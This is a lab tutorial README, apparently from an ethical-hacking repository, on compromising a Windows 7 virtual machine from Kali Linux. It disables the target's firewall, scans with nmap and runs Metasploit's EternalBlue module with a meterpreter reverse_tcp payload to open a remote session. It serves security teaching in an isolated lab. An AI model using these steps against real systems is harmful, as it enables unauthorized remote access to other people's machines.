 #  Windows-7 OS eternal-blue  #



## Operating Systems ##
- [Window 7 OS](https://www.softlay.com/downloads/windows-7-ultimate) (Target)
- [Kali Linux OS](https://www.kali.org/get-kali/#kali-platforms) (Attacker)



## Tools ##
- [Nmap](https://nmap.org/)
- [Metasploit](https://www.metasploit.com/)



## Intro ##
<p align="justify">To complete this lab, you will require Kali Linux as the attacker system and Windows 7 as the target system. I have provided links above where you can download the necessary operating systems and tools. If you're unsure about how to install Kali Linux or Windows 7 as virtual machines, or if you encounter any issues with the tools, you can refer to the guides available on the following websites that I will describe below.</p>

- [Installing Kali Linux in Virtual Box](https://www.youtube.com/watch?v=MPkni85O9JA)
- [Installing Windows 7 in Virtual Box](https://www.youtube.com/watch?v=qc3tatME9k4)
- [Installing Nmap in Kali Linux](https://www.youtube.com/watch?v=UztKA63rmL0)



### Step 1 ###
<p align="justify">After obtaining both Kali Linux and Windows 7, it is necessary to configure their network settings to be on the same network.</p>



### Step 2 ###
<p align="justify">In step two, you must disable the Windows 7 firewall to access the target system. Without disabling the firewall, the ports required for access will remain closed.</p>
<p align="justify"></p>

1. Click Control Panel from the search results.
1. Select System and Security.
1. Click Windows Defender Firewall.
1. Click the Turn Windows Defender Firewall on or off option.
1. Click the Turn off Windows Defender Firewall

![Firewall Off](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/2da2842c-b88b-4718-a795-d57290a00010)



### Step 3 (Ping) ###
<p align="justify">Before we begin exploiting, it's important to ensure that both systems are connected or in the same network. </p>

```
ping [TARGET IP]
```

![ping](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/6b04ea71-1682-44bc-840c-4e08d07126b0)



### Step 4 (Scanning) ###
<p align="justify">If the target system is on our network, we can scan its open ports using its IP address. I use Nmap for vulnerability scanning.</p>

- -A : For all types of scans, such as OS detection, version of services detection, and traceroute.

```
nmap -A -Pn [TARGET IP]
```

If you're looking to learn the basics of Namp, you can find them [here](https://www.youtube.com/watch?v=5MTZdN9TEO4).

![nmap](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/bd2950a8-1882-4651-84f6-78eb3eea345e)



### Step 5 (Metasploit) ###
<p align="justify">After the scanning process, you will notice that several ports are opening. It is important to pay attention to Port 445, which is also known as the server message block (SMB). This port enables devices on the same network to communicate with each other and share files or other resources. By exploiting the vulnerability of this service, we can gain access to the target system. Therefore, we will use Metasploit for this purpose. We can use EternalBlue if there is a vulnerability of port 445 on a Windows.</p>

```
msfconsole
```

<p align="justify">Next, look for the Eternal-Blue and use it.</p>

```
search eternalblue
```

```
use 0
```

![Msfconsole](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a53895bf-addc-4ff5-8946-5617cdced1ef)



### Step 6 (Payload) ###
<p align="justify">Now we need to set the payload, but it's not necessary for this exploit. We can use it or not, depending on our preference.</p>

```
set payload window/x64/meterpreter/reverse_tcp
```

![payload](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/81c37fbc-e687-46ad-ba12-093d07f08ff5)



### Step 7 (Options) ###
<p align="justify">We need to consult the available options to determine what modifications are necessary.</p>

```
show options
```

![options](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a4cdc84f-16c8-4f69-8880-7970944c16d2)



### Step 8 (Getting Access) ###
<p align="justify">In options, RHOSTS refers to the IP address of the target system, and RPORT refers to the vulnerable port we are going to exploit on the target. RPORT has already been added. We only need to add the target's IP in RHOSTS.</p>

```
set rhosts [TARGET IP]
```

Then,

```
run
```

![run](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/0fe9b253-5713-4d8b-830f-3041fb3fc5f0)



### Result ###
<p align="justify">After a few seconds of waiting, we were able to access the target system. We can request help to determine our next steps.</p>

```
help
```

![help](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/7519d863-d454-4657-ac32-1d69ae72fd50)

<br>

<p align="justify">There are many options that we can do in the meterpreter session. For example, we can type ipconfig or ifconfig to see the network config setting of the system.</p>

```
ipconfig
```

Or,

```
ifconfig
```

![ipconfig](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/1d8fcb95-2875-4078-97bc-a4e86d450ff1)

### Practice sessions have come to an end.  I hope you enjoyed them. See you next Sunday for our next session ###
